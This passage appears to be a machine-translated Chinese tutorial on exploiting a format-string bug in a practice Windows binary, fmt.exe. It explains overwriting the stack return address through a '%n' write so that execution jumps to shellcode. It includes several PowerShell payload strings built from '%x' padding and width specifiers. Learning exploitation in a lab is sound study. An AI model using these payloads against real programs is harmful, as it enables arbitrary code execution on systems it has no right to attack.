 ![](img/4edf251bee292e396a7ea5c06766655b.png)

计划是这样的。在这种情况下，我们可以控制 ECX 和 EAX。我们可以在 ECX 内部写外壳代码的地址，在 EAX 寄存器内部写返回地址的指针。一旦程序命中" *mov dword ptr [eax]，ecx*" shellcode 的地址将被写入堆栈上的返回地址。当程序到达函数的结尾并点击结束键时，RET EIP 将指向我们新写的地址，这个地址指向我们的外壳代码

好吧，这个计划听起来很酷，让我们试着实现它，并进行试验。
首先，我们应该把 EAX 指向我们的回信地址。我的第一个有效载荷是这样的。与上一张图一样，EAX 包含 78257825，即“x%x%”。

```
$Buffer = 'A' * 80
$fmt = '%x' * 21 + '%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

我们必须继续试验，直到 EAX 指出我们的 4 B 字符。我不断增加“%x”字符，终于让 EAX 指向“BBBB”。所以，我尝试的下一个有效载荷是这个。

```
$Buffer = 'A' * 80
$fmt = '%x' * 41 + '%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```

![](img/716a4e6f2f8c544ff70bb9fdb82daf02.png)

让我们试着控制 ECX 注册表，让它指向我们的外壳代码地址。与上一张图片一样，我们的外壳代码位于 0019f758。让我们把这个数除以 4。

```
0x0019f758/4 = 425430
```

让我们把这个值赋予格式字符串%x，这将改变 ECX 的值。同时，我将把%x 字符从 41 个增加到 51 个，让 EAX 指向我们的 Bs。这个%x 一次读取 2 个字符。我们必须不断试验，直到达到目标

```
$Buffer = 'A' * 80
$fmt = '%x' * 51 + '%.425430x' * 4 +'%n'
$ret = 'B' * 4
$final = $Buffer + $fmt + $ret
Start-Process ./fmt.exe -ArgumentList $final
```
